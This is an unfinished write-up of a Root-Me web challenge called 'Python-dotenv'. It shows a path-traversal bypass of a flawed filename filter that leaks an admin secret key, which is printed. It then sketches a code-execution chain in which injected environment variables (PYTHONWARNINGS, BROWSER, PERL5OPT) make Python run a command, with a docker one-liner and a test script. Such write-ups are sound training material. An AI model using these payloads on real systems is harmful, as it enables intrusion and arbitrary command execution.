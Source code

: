 ```yaml
---
layout: default
title: Python-dotenv
---
```


First, we need to access `/admin`, however it protected by basic HTTP auth.

We can see in `secret.py` that the password for `admin` is stored inside `.secret_key`, and this word isn't in the blacklist, in `app.py`, which includes `.env, proc, flag`

There is this page:
```
http://challenge01.root-me.org:59095/read?file=welcome.txt
```

As we can see in `download.py`, it tries to block `Path traversal` that'll let us get `LFI`.

```python
def basename(filename):
    """
    Return the basename of a file, working on Windows / Linux
    """
    safe_filename = filename

    if not filename:
        return ""

    if '/' in filename:
        # Prevent linux path traversal
        safe_filename = filename[filename.rindex('/') + 1:]

    if '\\' in filename:
        # Prevent windows path traversal
        safe_filename = filename[filename.rindex('\\') + 1:]

    return safe_filename
```

However, this check is exploitable, if we give something like:
```
\../welcome.txt
```
After the first `if`, `safe_filename='welcome.txt'`.
But, after the second `if`, `safe_filename='../welcome.txt'`.
I think the error it's that in the second if, he should have use this line:
```python
safe_filename = safe_filename[safe_filename.rindex('\\') + 1:]
```

However, we can exploit it to get `.secret_key`, using this payload:
```
http://challenge01.root-me.org:59095/read?file=\../.secret_key
```

![get secret key](./images/Python-dotenv_secret_key.png)

so, the secret key is: `Vvut3yXMZy2L0unjggquyBGb31fpxTVNq86dk8bB`, and the username: `admin`, let's login to `/admin` portal.

# NOT FINISHED

#### TO EDIT

We can use `CLRF` to inject our own `.env`, need to see how exactly. 
(can change the textbox in the html from `input` to `textarea`, more easier)

Next, we use this: https://www.elttam.com/blog/env/, and also this https://news.ycombinator.com/item?id=28197502.

We want to `import antigravity`, which then opens page on the browser, easter egg from 2008.

We want to override the browser using env variables, and set it to `perl`.
In addition, we need to trigger the `import`, using `PYTHONWARNINGS` env variable.

This payload should work, i need to check why we must `export` the variables before it works.   
```
docker run -e 'PYTHONWARNINGS=all:0:antigravity.x:0:0' -e 'BROWSER=perlthanks' -e 'PERL5OPT=-Mbase;print(`id`);exit;' python:3.8.2 python /dev/null
```

Here testing.py:
```py
import os
import webbrowser
from dotenv import dotenv_values, load_dotenv


os.environ['BROWSER'] = 'perlthanks'
os.environ['PERL5OPT'] = '-Mbase;print(`id`);exit;'
os.environ['PYTHONWARNINGS'] = 'all:0:antigravity.xyz:0:0'

ENVIRON_FILE = '.env'

def test_mail():
    print("Testing mail...")
    os.popen("/usr/local/bin/python ./send_mail.py").read().strip()
    print("Mail test completed.")

# Load .env file
load_dotenv(ENVIRON_FILE)
# print("loaded file")

# Method 1: Using dotenv_values to see what was in the file
# env_values = dotenv_values(ENVIRON_FILE)
# print("Values from dotenv_values():", env_values)

test_mail()
```

![docker poc](./images/Python-dotenv_docker_poc.png)

Then, we should get `RCE`. 
 
**Flag:** ***`PLACE_HOLDER`***

